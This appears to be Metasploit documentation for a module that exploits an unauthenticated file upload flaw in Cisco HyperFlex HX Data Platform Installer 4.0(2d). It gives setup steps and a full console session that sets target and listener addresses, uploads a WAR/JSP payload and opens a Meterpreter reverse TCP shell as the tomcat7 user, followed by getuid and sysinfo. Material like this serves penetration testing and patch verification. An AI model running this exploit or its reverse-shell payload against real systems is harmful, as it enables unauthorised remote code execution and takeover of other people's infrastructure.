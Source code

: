 ## Vulnerable Application

### Description

This module exploits an unauthenticated file upload vulnerability in
Cisco HyperFlex HX Data Platform's /upload endpoint to upload and
execute a payload as the Tomcat user.

### Setup

Import `Cisco-HX-Data-Platform-Installer-v4.0.2d-35606-esx.ova`.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### UPLOAD_FILE_NAME
This is the name of the .jsp file that is packaged inside the .war payload. The .jsp file is auto deployed on the tomcat
server and is then invoked via a GET request in order to execute the payload. (Random by default).

## Scenarios

### Cisco HyperFlex HX Data Platform Installer 4.0(2d)

```
msf6 > use exploit/linux/http/cisco_hyperflex_file_upload_rce
[*] Using configured payload java/meterpreter/reverse_tcp
msf6 exploit(linux/http/cisco_hyperflex_file_upload_rce) > options

Module options (exploit/linux/http/cisco_hyperflex_file_upload_rce):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             80               yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI         /                yes       Base path
   UPLOAD_FILE_NAME  iQMMhIYPOLAGObK  no        Choose a filename for the payload. (Default is random)
   VHOST                              no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Dropper

msf6 exploit(linux/http/cisco_hyperflex_file_upload_rce) > set rhosts 192.168.123.145
rhosts => 192.168.123.145
msf6 exploit(linux/http/cisco_hyperflex_file_upload_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/http/cisco_hyperflex_file_upload_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Preparing payload...
[*] Uploading payload...
[+] Payload uploaded successfully
[*] Executing payload... calling: /crossdomain.xml
[+] Payload executed successfully
[*] Sending stage (58082 bytes) to 192.168.123.145
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.145:35824) at 2021-06-16 16:33:34 -0400
[!] This exploit may require manual cleanup of '/var/lib/tomcat7/crossdomain.xml.war' on the target
[!] This exploit may require manual cleanup of '/var/lib/tomcat7/crossdomain.xml/' on the target

meterpreter > getuid
Server username: tomcat7
meterpreter > sysinfo

```
